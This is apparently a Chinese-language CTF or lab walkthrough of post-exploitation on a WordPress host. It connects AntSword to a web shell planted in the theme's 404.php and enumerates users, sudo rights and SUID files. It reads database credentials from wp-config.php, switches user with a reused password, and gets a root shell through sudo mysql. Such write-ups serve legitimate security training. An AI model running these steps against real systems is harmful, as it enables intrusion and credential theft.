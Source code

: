 右键添加
URL地址：`http://192.168.1.32/wordpress/wp-content/themes/twentytwentyone/404.php`
连接密码：`cmd`
点击测试连接，提示连接成功。点击确认添加。
选择右键，打开终端。
使用蚁剑是为了维持shell，虽然这个shell也不太好用，但实际应用中还是比较有用的。
还没拿下，继续提权
```Shell
# 用户枚举
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# wpadmin:x:1001:1001::/home/wpadmin:/bin/bash
```
根据经验要拿的两个flag应该就分别在这两个用户的主目录下，尝试查看，发现没有权限。
查看系统版本
```Shell
uname -a
# Linux wp 5.4.0-72-generic #80-Ubuntu SMP Mon Apr 12 17:35:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
没有找到可以利用的内核漏洞
再查看自己的sudo权限
```Shell
sudo -l
```
还是失败了
找SUID文件
```Shell
find / -perm -u=s -type f -user root -executable ! -group root 2>/dev/null -exec ls -l {} \;
find / -perm -u=s -type f -user wpadmin -executable ! -group root 2>/dev/null -exec ls -l {} \;
```
也没找到
回到这个应用中，可以考虑利用数据库提权。
查看配置文件
```Shell
cat /var/www/html/wordpress/wp-config.php
# define( 'DB_NAME', 'wordpress' );
# define( 'DB_USER', 'admin' );
# define( 'DB_PASSWORD', 'Wp_Admin#123' );
```
看到了数据库账号密码
尝试直接通过这个密码SSH连接，失败了
先连数据库看看
```Shell
mysql -u admin -D wordpress -p'Wp_Admin#123'
```
能够成功连接，但获取不到有用的数据
再通过之前获取到的Web控制台密码 `adam14` 尝试提权
```Shell
su wpadmin
```
成功提权，再次查看当前用户的sudo权限
```Shell
sudo -l
# (root) NOPASSWD: /usr/bin/mysql -u admin -D wordpress -p
```
输入任意密码 `Wp_Admin#123` 成功登录数据库
```Shell
/usr/bin/mysql -u admin -D wordpress -p
```
通过MySQL提权
```Shell
> system id
# 或
> \! bash
```
提权成功
